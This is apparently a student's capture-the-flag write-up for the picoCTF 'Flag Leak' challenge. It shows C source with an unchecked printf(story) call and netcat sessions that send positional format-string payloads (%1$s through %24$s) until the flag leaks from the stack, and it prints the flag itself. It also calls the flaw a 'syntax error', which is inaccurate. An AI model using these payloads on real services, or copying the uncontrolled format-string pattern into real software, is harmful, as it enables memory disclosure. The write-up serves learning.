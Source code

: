# Flag Leak

In this challenge there were 2 files, `vuln` and `vuln.c`. There was a NetCatlink to connect to the challenge as well. 

So using that link I ran the challenge and then I was encountered with a prompt to tell a story so I tested it out.

```
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 49278
Tell me a story and then I'll tell you one >> hello
Here's a story -
hello
```

I tried some other words too and as expected it kept returning them back. So I opened its source file to have a look at the code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

Looking through the code I found out that, there was a syntax error in the `printf(story)` line. There was no `%s` before the `story` variable. 

I looked up this error on the web and it was labelled as a format string vulnerability. This [Website](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)
explained in detail what they were and how can I exploit one. Using the information given in this website, I used trial and error to figure out the flag and after a long time I finally found the flag.

```
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %1$s
Here's a story -
%1$s
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %2$s
Here's a story -
���
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %3$s
Here's a story -
�ú,
```
..............
```
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %12$s
Here's a story -

coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %13$s
Here's a story -
(null)
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %14$s
Here's a story -
```
......
```
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %22$s
Here's a story -
setresgid
coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %23$s
Here's a story -

coolguy24@Vedant-Laptop:~$ nc saturn.picoctf.net 54451
Tell me a story and then I'll tell you one >> %24$s
Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
```

`FLAG:picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`
